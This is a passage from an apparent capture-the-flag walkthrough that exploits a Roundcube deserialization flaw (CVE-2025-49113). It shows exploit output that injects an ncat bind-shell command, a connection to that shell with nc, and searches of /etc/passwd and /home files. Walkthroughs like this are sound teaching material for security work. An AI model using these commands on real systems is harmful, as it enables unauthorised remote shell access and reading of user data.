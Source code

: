 **Expected Output:**
```
### Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

### Retrieving CSRF token and session cookie...

### Authenticating user: ellieptic

### Authentication successful

### Command to be executed: 
ncat -lvnp 4444 -e /bin/bash

### Injecting payload...

### Payload injected successfully

### Executing payload...
```

### Step 5: Connect to the Bind Shell

```bash
# Connect to the bind shell (wait 10-30 seconds after exploit execution)
nc $TARGET_IP 4444
```

**Verify the connection:**
```bash
pwd
whoami
id
```

**Expected Output:**
```
/var/www/html/roundcube
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Step 6: Answer Challenge Questions

#### Find Maggie's Last Name

```bash
# Search for users with first name Maggie
cat /etc/passwd | grep -i maggie
grep -r "Maggie" /home/ 2>/dev/null
ls -la /home/

# Check user directories for profile information
find /home -name "*.txt" -o -name "*.info" 2>/dev/null | xargs cat 2>/dev/null
```
